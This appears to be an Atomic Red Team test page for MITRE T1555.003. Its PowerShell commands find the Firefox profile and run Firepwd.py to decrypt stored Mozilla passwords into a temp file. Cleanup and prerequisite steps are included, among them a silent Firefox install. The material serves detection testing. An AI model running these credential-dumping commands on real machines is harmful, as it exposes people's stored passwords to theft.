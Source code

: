 


<br/>
<br/>

## Atomic Test #8 - Decrypt Mozilla Passwords with Firepwd.py
Firepwd.py is a script that can decrypt Mozilla (Thunderbird, Firefox) passwords.
Upon successful execution, the decrypted credentials will be output to a text file, as well as displayed on screen. 

Will create a Python virtual environment within the External Payloads folder that can be deleted manually post test execution.

**Supported Platforms:** Windows


**auto_generated_guid:** dc9cd677-c70f-4df5-bd1c-f114af3c2381





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Firepwd_Path | Filepath for Firepwd.py | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;venv_t1555.004&#92;Scripts&#92;Firepwd.py|
| Out_Filepath | Filepath to output results to | string | $env:temp&#92;T1555.003Test8.txt|
| VS_CMD_Path | Filepath to Visual Studio Build Tools Command prompt | string | C:&#92;Program Files (x86)&#92;Microsoft Visual Studio&#92;2022&#92;BuildTools&#92;VC&#92;Auxiliary&#92;Build&#92;vcvars64.bat|
| Python_Path | Filepath to python | string | C:&#92;Program Files&#92;Python310&#92;python.exe|
| venv_path | Path to the folder for the tactics venv | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;venv_t1555.004|


#### Attack Commands: Run with `powershell`! 


```powershell
$PasswordDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
cmd /c #{venv_path}\Scripts\python.exe #{Firepwd_Path} -d $PasswordDBLocation > #{Out_Filepath}
cat #{Out_Filepath}
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{Out_Filepath}" -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Firefox profile directory must be present
##### Check Prereq Commands:
```powershell
if (get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\" -erroraction silentlycontinue) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://ftp.mozilla.org/pub/firefox/releases/98.0/win64/en-US/Firefox%20Setup%2098.0.msi" -outfile "PathToAtomicsFolder\..\ExternalPayloads\firefox.msi"
msiexec.exe /i "PathToAtomicsFolder\..\ExternalPayloads\firefox.msi" /quiet
sleep -s 30
```